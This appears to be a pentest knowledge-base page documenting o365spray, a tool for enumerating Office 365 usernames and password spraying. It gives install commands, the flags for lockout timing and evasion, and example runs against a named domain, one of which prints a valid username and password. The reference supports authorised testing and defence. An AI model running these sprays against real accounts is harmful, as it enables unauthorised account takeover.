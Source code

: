 ```yaml
---
title : "O365spray"
# pre : ' '
description : "o365spray | Microsoft O365 User Enumerator and Password Sprayer."
date : 2021-11-03T20:53:22+01:00
# hidden : true
# draft : true
weight : 0
tags : ['M365', 'Passwordspray']
---
```


## O365spray

o365spray a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments).

> WARNING: The oAuth2 module for user enumeration is performed by submitting a single authentication attempt per user. If the module is run in conjunction with password spraying in a single execution, o365spray will automatically reset the lockout timer prior to performing the password spray -- if enumeration is run alone, the user should be aware of how many and when each authentication attempt was made and manually reset the lockout timer before performing any password spraying.

### Installation

```plain
git clone https://github.com/0xZDH/o365spray
python3 -m pip install -r requirements.txt
```

### Usage

```plain
o365spray.py [-h] [-d DOMAIN] [--validate] [--enum] [--spray] [-u USERNAME] [-p PASSWORD] [-U USERFILE] [-P PASSFILE] [--paired PAIRED] [-c COUNT] [-l LOCKOUT] [--enum-module {office,onedrive,oauth2}]
                    [--spray-module {oauth2,activesync,autodiscover,reporting,adfs}] [--adfs-url ADFS_URL] [--sleep [-1, 0-120]] [--jitter [0-100]] [--rate RATE] [--safe SAFE] [--timeout TIMEOUT] [--proxy PROXY] [--output OUTPUT]
                    [-v] [--debug]
```

### Flags

```plain
o365spray | Microsoft O365 User Enumerator and Password Sprayer -- v2.0.4

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Target domain for validation, user enumeration, and/or password spraying.
  --validate            Run domain validation only.
  --enum                Run username enumeration.
  --spray               Run password spraying.
  -u USERNAME, --username USERNAME
                        Username(s) delimited using commas.
  -p PASSWORD, --password PASSWORD
                        Password(s) delimited using commas.
  -U USERFILE, --userfile USERFILE
                        File containing list of usernames.
  -P PASSFILE, --passfile PASSFILE
                        File containing list of passwords.
  --paired PAIRED       File containing list of credentials in username:password format.
  -c COUNT, --count COUNT
                        Number of password attempts to run per user before resetting the lockout account timer. Default: 1
  -l LOCKOUT, --lockout LOCKOUT
                        Lockout policy's reset time (in minutes). Default: 15 minutes
  --enum-module {office,onedrive,oauth2}
                        Specify which enumeration module to run. Default: office
  --spray-module {oauth2,activesync,autodiscover,reporting,adfs}
                        Specify which password spraying module to run. Default: oauth2
  --adfs-url ADFS_URL   AuthURL of the target domain's ADFS login page for password spraying.
  --sleep [-1, 0-120]   Throttle HTTP requests every `N` seconds. This can be randomized by passing the value `-1` (between 1 sec and 2 mins). Default: 0
  --jitter [0-100]      Jitter extends --sleep period by percentage given (0-100). Default: 0
  --rate RATE           Number of concurrent connections (attempts) during enumeration and spraying. Default: 10
  --safe SAFE           Terminate password spraying run if `N` locked accounts are observed. Default: 10
  --timeout TIMEOUT     HTTP request timeout in seconds. Default: 25
  --proxy PROXY         HTTP/S proxy to pass traffic through (e.g. http://127.0.0.1:8080).
  --output OUTPUT       Output directory for results and test case files. Default: current directory
  -v, --version         Print the tool version.
  --debug               Enable debug output.
```

### Examples

#### Validate domain

```plain
$ python3 o365spray.py -d offsec.nl --validate

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  offsec.nl
   > validate       :  True
   > timeout        :  25 seconds
   > start          :  2021-11-03 20:52:48

>----------------------------------------<

[2021-11-03 20:52:48,396] INFO : Running O365 validation for: offsec.nl
[2021-11-03 20:52:48,652] INFO : [WARNING] The following domain is using O365, but is Federated: offsec.nl
        [!] --> ADFS AuthURL: https://offsec.okta-emea.com/app/office365/
```

#### Passwordspray over ActiveSync

```plain
$ python3 o365spray.py -d offsec.nl -u john.do --paired usercreds.txt --spray-module activesync --spray

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  offsec.nl
   > spray          :  True
   > username       :  john.do
   > paired         :  usercreds.txt
   > count          :  1 passwords/spray
   > lockout        :  15.0 minutes
   > spray_module   :  activesync
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2021-11-03 21:00:26

>----------------------------------------<

[2021-11-03 21:00:26,533] INFO : Running O365 validation for: offsec.nl
[2021-11-03 21:00:26,736] INFO : [WARNING] The following domain is using O365, but is Federated: offsec.nl
        [!] --> ADFS AuthURL: https://offsec.okta-emea.com/app/office365/
[2021-11-03 21:00:26,736] INFO : 

[ ? ]   Switch to the ADFS module for password spraying [Y/n] n
[2021-11-03 21:00:30,062] INFO : Running password spray against 1 users.
[2021-11-03 21:00:30,063] INFO : Password spraying using paired usernames:passwords.
[2021-11-03 21:00:30,498] INFO : [VALID] john.do@offsec.nl:Welkom1234!
[2021-11-03 21:00:30,499] INFO : 

[ * ] Writing valid credentials to: '/o365spray/spray/spray_valid_credentials.2111032100.txt'
[ * ] All sprayed credentials can be found at: '/o365spray/spray/spray_tested_credentials.2111032100.txt'

[2021-11-03 21:00:30,499] INFO : Valid Credentials: 1
```

### URL list

* [Github.com - o365spray](https://github.com/0xZDH/o365spray)
